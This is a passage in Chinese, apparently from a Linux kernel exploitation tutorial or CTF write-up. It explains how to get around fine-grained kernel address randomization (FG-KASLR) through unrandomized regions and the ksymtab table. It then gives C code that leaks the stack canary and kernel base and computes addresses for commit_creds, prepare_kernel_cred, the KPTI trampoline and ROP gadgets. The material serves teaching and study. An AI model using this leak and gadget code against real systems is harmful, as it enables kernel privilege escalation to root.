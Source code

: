 了解决用户态的ASLR经典的做法是泄露段中某个地址，然后根据偏移计算基地址。因为只是随机化了加载的基地址而偏移量都是不变的，这一特点对于普通的KASLR来说也是这样的。**其内核加载地址随机化但所有的函数都会有一个固定的偏移量**。

但是很多情况是`FG-KASLR`，函数粒度化随机加载。这将会在内核加载时以每个函数为单位重新排布他们的地址。



这个FG-KASLR并不是完美的，还是有一部分区域不会进行地址随机化，以下是不会收该机制影响的区域并且包含对我们有用的代码：

+ 从标号`_text`到__x86_retpoline_r15即`_text+0x400dc6`的代码。这里没有包括`commit_creds`和`prepare_kernel_cred`

+ `swapgs_restore_regs_and_return_to_usermode()`函数

+ 内核符号表`ksymtab`从`_text+0xf85198`开始，可以用来计算其他函数的地址

  + ```c
    struct kernel_symbol {
    	  int value_offset;
    	  int name_offset;
    	  int namespace_offset;
    };
    ```

  + 通过某个符号的`ksymtab`entry地址加上其记录的`value_offset`就是该符号的真正地址



#### get gadgets

```c
unsigned long cookie;
unsigned long imagebase;
unsigned long kpti_trampoline;
unsigned long ksymtab_prepare_kernel_cred;
unsigned long ksymtab_commit_creds;
unsigned long Read4ByteRet;                 //mov eax, dword ptr [rax + 0x10] ; pop rbp ; ret 
unsigned long PopRaxRet;   
unsigned long PopRdiRet;            
void leak(void){
    unsigned n = 40;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];

    imagebase = leak[38] - 0xa157;
    
    kpti_trampoline = imagebase + 0x200f10 + 22;
    ksymtab_prepare_kernel_cred = imagebase + 0xf8d4fc;
    ksymtab_commit_creds = imagebase + 0xf87d90;
    Read4ByteRet = imagebase + 0x4aae;
    PopRaxRet = imagebase + 0x4d11;
    PopRdiRet = imagebase + 0x6370;
    
    printf("[*] Leaked %zd bytes\n", r);
    printf("[*] Cookie: %lx\n", cookie);
    printf("[*] imagebase: %lx\n", imagebase);
}
```
